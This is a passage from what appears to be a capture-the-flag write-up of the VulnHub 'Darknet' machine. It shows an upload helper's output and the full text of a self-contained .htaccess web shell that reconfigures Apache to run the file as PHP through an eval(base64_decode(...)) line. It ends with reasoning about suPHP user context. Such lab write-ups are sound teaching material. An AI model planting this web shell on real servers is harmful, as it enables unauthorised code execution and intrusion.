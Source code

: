 All I had to do was runt his script, providing the filename that I want to upload and viola.

```
root@kali:~/data/VulnHub/Darknet# python bruteUploader.py .htaccess
[+] Logging in ...
[+] Uploading : .htaccess
[+] Upload successful! Try: http://signal8.darknet.com/xpanel/uploads/.htaccess
```

Once uploaded, I browsed to the location and was met with what looks like some code execution again!

{{< figure src="/images/darknet_signal8_xpanel_shell.png" >}}

As expected, the OS command execution does not work due to all those `disable_functions`, but we have PHP code execution so that was a start! I decided that for this one I wanted to try get a more fully featured shell working. So, I edited the `.htaccess` to include a web shell that [I was working quite some time ago](https://gist.github.com/leonjza/8e9d16c84cf70014c4f36d8f95f9836e) (and finally kinda finished). I packed the shell and replaced the PHP in the `.htaccess` with the more fully featured shells packed source.

```
# <!--  Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
# Uncomment the line below for Apache2.4 and newer
# Require all granted
    Order allow,deny
    Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess

###### SHELL ###### --><?php eval(base64_decode("LONG BASE64 ENCODED STRING"));
```

Uploaded this with my upload helper and boom, a better shell.

{{< figure src="/images/darknet_signal8_xpanel_shell2.png" >}}

## the last hurdle(s)

Wtf. The current user is `errorlevel`... I double checked and saw that previously we were the `devnull` user. This had me pretty confused in the beginning and had me spend quite a bit of time to figure out how this is possible. From the `phpinfo()` output we had no `open_basedir` restriction so that allowed me to move around the filesystem much more freely than before. I also noticed that I am not able to access the home directory for the `errorlevel` user so I couldn't really figure out what was going on in there (the red color indicates read/write is not possible).

{{< figure src="/images/darknet_signal8_xpanel_homedirs.png" >}}

Eventually, I discovered the use of [suPHP](http://www.suphp.org/) as a loaded module. This basically means that the PHP script will run as the owner of the file. So with that theory, its sane to assume that because `errorlevel` owns the PHP files in the users home directory, that is why I am seen as that user too.
